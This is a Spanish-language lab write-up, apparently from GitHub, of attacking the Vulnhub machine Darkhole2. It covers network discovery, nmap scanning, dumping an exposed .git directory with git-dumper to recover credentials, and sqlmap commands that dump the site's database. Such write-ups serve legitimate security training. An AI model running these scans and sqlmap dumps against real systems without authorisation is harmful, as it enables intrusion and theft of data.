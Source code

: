 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema también se pondra a prueba en VirtualBox

## Escaneo de Red

'netdiscover'

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:

nmap -A 192.168.40.133

De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git

## Enumerar el servidor web

Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

Decidimos echar un vistazo a la página de inicio de sesión

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git

cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup

Después de descargar la herramienta, intentamos ejecutarla con python .
Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para progresar en este laboratorio.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

python3 git_dumper.py http://192.168.40.133/.git/ backup 
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10

sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" --dbs –batch   //vemos las bases de datos

sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" -D darkhole_2 --dump-all --batch
date: "14/07/2023"
